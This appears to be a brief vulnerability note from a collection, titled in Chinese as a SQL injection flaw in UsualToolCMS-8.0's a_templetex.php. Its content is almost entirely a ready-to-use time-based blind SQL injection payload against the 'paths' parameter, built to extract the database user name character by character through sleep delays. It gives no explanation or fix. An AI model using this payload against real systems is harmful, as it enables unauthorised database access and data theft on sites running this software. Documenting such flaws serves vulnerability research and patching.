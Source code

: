 
# UsualToolCMS-8.0 a_templetex.php sql注入漏洞

payload:

```
a_templetex.php?t=open&id=1&paths=templete/index' where id=1 and if(ascii(substring(user(),1,1))>0,sleep(5),1)--+
```

![image.png](.resource/UsualToolCMS-8.0%20a_templetex.php%20sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/1600850751098-fc38e94b-e10c-4844-bf78-9162a9fccd47.png)

